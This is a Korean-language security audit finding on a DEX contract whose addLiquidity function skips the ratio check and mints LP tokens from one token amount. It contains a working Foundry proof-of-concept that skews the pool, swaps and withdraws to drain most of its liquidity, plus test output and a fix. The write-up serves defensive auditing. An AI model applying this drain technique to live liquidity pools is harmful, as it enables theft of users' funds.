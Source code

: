 # DEX - addLiquidity의 유동성 공급비 검증의 부재 및 부적절한 토큰 발급

## 설명

<aside>

### **키워드 : Vulnerability - 유동성 풀 조작 및 부적절한 토큰 발급**

### **심각도 : Critical**

`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지 않는다.
이를 악용하여 유동성 풀에 원하는 비율로 토큰을 공급하여 교환비를 조작할 수 있고, 공급량보다 많은 양의 LP토큰을 발급받을 수 있다.

</aside>

```solidity
if (totalSupply() == 0) {
    LPTokenAmount = (tokenXAmount * tokenYAmount) / 10 ** 18;
} else {
    LPTokenAmount = (totalSupply() * tokenXAmount) / reserveX;
}
```

유동성 풀에 초기에 공급된 비율로 공급되는지 검사하고 이를 유동성 풀의 비율이 깨지지 않게 공급되도록 유도해야 한다. 하지만 이에 대한 검증이 이루어지지 않고 유동성 풀에 공급하게 된다.

그리고 이때 LP토큰 발행량은 tokenXAmount에 의존하여 발행되어 실제 공급량과 맞지 않는 토큰량이 발행된다.

즉, 유동성 풀의 비율을 임의로 조작할 수 있고 이는 곧 적절하지 못한 가격으로 토큰을 교환할 수 있으며 LP토큰의 발행량이 잘못 책정되는 요인이 된다.

## PoC

```solidity
function testPOC() external {
        tokenX.transfer(address(0x01), 1 ether);
        tokenY.transfer(address(0x01), 100 ether);

        tokenX.transfer(address(0x02), 100 ether);
        tokenY.transfer(address(0x02), 102 ether);

        vm.startPrank(address(0x01));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            uint256 LP1 = dex.addLiquidity(1 ether, 100 ether, 0);
        }
        vm.stopPrank();

        vm.startPrank(address(0x02));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            uint256 lp = dex.addLiquidity(100 ether, 1 ether, 0);

            console.log(
                "before swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
            uint res = dex.swap(0, 101 ether, 0);
            console.log(
                "after swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );

            dex.removeLiquidity(lp, 0, 0);
            console.log(
                "Attack result",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
        }
        vm.stopPrank();
    }
```

```solidity
[PASS] testPOC() (gas: 401295)
Logs:
  before swap balance 0 101000000000000000000
  after swap balance 50474737368684342172 0
	Attack result 100499749874937468734 200000000000000000000
```

초기 유동성 풀에 A가 x토큰과 y토큰을 1:100 비율로 토큰을 공급한다. 이는 곧 실제 토큰의 가치에 따른 교환비라고 볼 수 있다.

이때 유저 B가 기존의 유동성 비율과는 무관하게 x토큰과 y토큰을 100:1 비율로 공급한다. 이때 유동성 풀에는 1:1 로 토큰이 존재한다. 이후 swap을 통해 y토큰을 x토큰으로 변환한다.

유동성풀의 비율이 본래 가치를 따르지 않고 잘못된 토큰 비율로 계산되어 변환된다.

```solidity
uint256 y_value = (tokenYAmount / 1000) * 999;
amountX = k / (amountY + y_value);
outputAmount = reserveX - amountX;
Y.transferFrom(msg.sender, address(this), tokenYAmount);
X.transfer(msg.sender, outputAmount);
```

이 결과로 본래 가치는 100:1 이지만 교환의 결과는 y토큰 100개가 x토큰 약 50개로 변환되는 것을 확인가능하다. 해당 DEX의 유동성 풀의 비율이 깨졌기 때문이다.

이후 LP토큰을 반환하여 유동성을 제거한다. 유저 B의 토큰 발행량은 x토큰 유동성 공급량에만 의존하기에 발행된 토큰의 100/101 만큼을 소유하고 있는 상태이다.

초기 자본은 x토큰 100 ether, y토큰 102 ether였지만, 교환 이후에는 dex에 존재하던 x토큰과 y토큰 대부분(100/101)을 탈취한 것을 확인할 수 있다.

## 파급력

Flash loan 등을 통해 유동성을 공급하여 유동성 비를 깨뜨린 후 실제 가치비가 아닌 잘못된 비율로 교환이 가능하며, 교환 후 유동성을 제거하면 공급량보다 많은 양을 반환받을 수 있기에 DEX에서 제공하는 가치를 신뢰할 수 없으며 DEX의 유동성을 탈취할 수 있다.

누군가가 위의 PoC 처럼 DEX의 유동성 풀에 버금가는 금액을 들고 나타난다면 유동성 풀의 모든 토큰을 탈취하는 것도 불가능한 일이 아닐 것이다.

특정 조건이 필요없어 공격 난이도가 낮음에도 불구하고 유동성 풀을 조작하여 이득을 취할 수 있기에 위험도는 매우 높다고 볼 수 있다.

## 해결 방안

```solidity
if (totalSupply() == 0) {
            LPTokenAmount = (tokenXAmount * tokenYAmount) / 10 ** 18;
        } else {
            require(
                tokenXAmount * reserveY == tokenYAmount * reserveX,
                "imbalance add liquidity"
            );
            LPTokenAmount = (totalSupply() * tokenXAmount) / reserveX;
        }
```

초회 공급이 아닌 경우에는 공급비가 유동성 풀의 비율과 동일한지 검사해야 한다.
